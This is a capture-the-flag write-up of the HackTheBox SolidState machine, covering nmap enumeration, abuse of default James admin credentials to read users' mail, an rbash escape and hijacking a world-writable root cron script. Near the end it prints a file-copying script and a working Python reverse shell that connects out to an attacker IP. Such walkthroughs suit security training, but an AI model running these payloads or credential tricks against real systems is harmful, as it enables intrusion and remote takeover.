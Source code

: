 ```yaml
---
layout: post
title: HackTheBox | SolidState
date: 2018-07-02 19:00:00 -0400
categories:
- hackthebox
description: ''
image:
  feature: assets/img/Alchemical-Seal-Wallpaper-by-saintabyssal.png
  credit: 
  creditlink: 
---
```

This post will describe exploitation of the SolidState device on [HackTheBox](https://www.hackthebox.eu).

![](https://image.ibb.co/nHoHJb/1.png)

## Enumeration

As is tradition, we run a full nmap scan:

```bash
PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 7.4p1 Debian 10+deb9u1 (protocol 2.0)
| ssh-hostkey: 
|   2048 77:00:84:f5:78:b9:c7:d3:54:cf:71:2e:0d:52:6d:8b (RSA)
|_  256 78:b8:3a:f6:60:19:06:91:f5:53:92:1d:3f:48:ed:53 (ECDSA)
25/tcp   open  smtp        JAMES smtpd 2.3.2
|_smtp-commands: solidstate Hello nmap.scanme.org (10.10.14.232 [10.10.14.232]), 
80/tcp   open  http        Apache httpd 2.4.25 ((Debian))
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Home - Solid State Security
110/tcp  open  pop3        JAMES pop3d 2.3.2
119/tcp  open  nntp        JAMES nntpd (posting ok)
4555/tcp open  james-admin JAMES Remote Admin 2.3.2
```

So one service definitely looks interesting, James 2.3.2. Typically, I would start my investigation on port 80 but based on my knowledge of the James Remote Admin tool. This service is typically left with default credentials which then can be used to change the passwords of the mail server users. From there we can access POP3 and snoop around the emails for the users.  

Logging in with Default Credentials: 

![](https://image.ibb.co/h9w4yb/2.png)

From this admin panel, we can change any user's password:

![](https://image.ibb.co/bu1hjG/3.png)

This makes it easy to enumerate each user's emails in turn.  For this we simply change each password to the user's username and then we can login to each one via POP3.  On Mindy's account we find some interesting emails.

```bash
root@kali:~/htb/SolidState# telnet 10.10.10.51 110
Trying 10.10.10.51...
Connected to 10.10.10.51.
Escape character is '^]'.
+OK solidstate POP3 server (JAMES POP3 Server 2.3.2) ready 
USER mindy
+OK
PASS mindy
+OK Welcome mindy
LIST
+OK 2 1945
1 1109
2 836
.
RETR 2
+OK Message follows
Return-Path: <mailadmin@localhost>
Message-ID: <16744123.2.1503422270399.JavaMail.root@solidstate>
MIME-Version: 1.0
Content-Type: text/plain; charset=us-ascii
Content-Transfer-Encoding: 7bit
Delivered-To: mindy@localhost
Received: from 192.168.11.142 ([192.168.11.142])
          by solidstate (JAMES SMTP Server 2.3.2) with SMTP ID 581
          for <mindy@localhost>;
          Tue, 22 Aug 2017 13:17:28 -0400 (EDT)
Date: Tue, 22 Aug 2017 13:17:28 -0400 (EDT)
From: mailadmin@localhost
Subject: Your Access

Dear Mindy,


Here are your ssh credentials to access the system. Remember to reset your password after your first login. 
Your access is restricted at the moment, feel free to ask your supervisor to add any commands you need to your path. 

username: mindy
pass: P@55W0rd1!2@

Respectfully,
James
```

We have recovered a username and password for Mindy, so let's SSH to the machine. Sounds easy enough. 

## Privilege Escalation

### Rbash escape

When we SSH to the device, we're greeted by a restricted shell.

![](https://image.ibb.co/cpZ2jG/4.png)

Escaping restricted shells could be a post in its own right so I'd recommend reading [Escape from SHELLcatraz](https://speakerdeck.com/knaps/escape-from-shellcatraz-breaking-out-of-restricted-unix-shells), if you're interested in the topic.

To break out of this rbash shell we will need to use the `--noprofile` flag to bash on login as below, so rbash isn't loaded.

![](https://image.ibb.co/e1WhjG/5.png)

Upon our enumeration, we come across an interesting world-writeable file in /opt.  This might seem quite esoteric, but just remember to always check the `/opt` and `/usr/local` directories for any interesting custom packages or scripts.  Running [LinEnum](https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh) on every box you enumerate, and learning to pick out useful information is also an invaluable skill.  I recommend doing that here and finding where this file is referenced.

![](https://image.ibb.co/dk7NjG/6.png)

```python
${debian_chroot:+($debian_chroot)}mindy@solidstate:/opt$ cat tmp.py
#!/usr/bin/env python

import os
import sys
if not os.geteuid() == 0:
    sys.exit("\nOnly root can run this script\n")
```

There's nothing in crontab, but considering it's been written as if only root can run it, and is owned by root, this suggests the root user may have a cron job set up for this script.  I had an inkling that this would be the case, so I wrote a script to fetch the root flag and output it to a temporary folder.  This one was definitely more down to CTF intuition than anything else.

We place the following code in tmp.py:

```python
#!/usr/bin/env python

import os

with open('/root/root.txt', 'rb') as rootfile:
    with open('/var/tmp/.crash', 'wb') as openthis:
        openthis.write(rootfile.read())
```

After a short amount of time, the flag is indeed written to the /var/tmp directory.

Getting a shell from this is then as simple as setting the python file to run any number of [reverse shells](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet).

We'll place the following in tmp.py:

```python
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.14.4",1234))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])
```

Wait a few minutes and:

![](https://image.ibb.co/iBjPyb/7.png)